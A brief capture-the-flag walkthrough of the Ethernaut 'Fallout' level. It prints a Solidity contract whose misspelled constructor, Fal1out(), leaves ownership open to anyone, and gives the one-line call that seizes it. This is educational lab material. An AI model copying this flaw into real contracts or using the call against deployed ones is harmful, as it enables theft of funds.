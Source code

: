 # Fallout

The source for this level is

```
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] += msg.value;
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(this.balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

It may be hard to notice but the constructor function is called `Fal1out()`. In order to be an actual constructor it needs to have the same name as the contract, in this case `Fallout()`. Because of this typo we can simply call `Fal1out()` as a function

```
contract.Fal1out()
```

And this will give us the ownership of the contract.
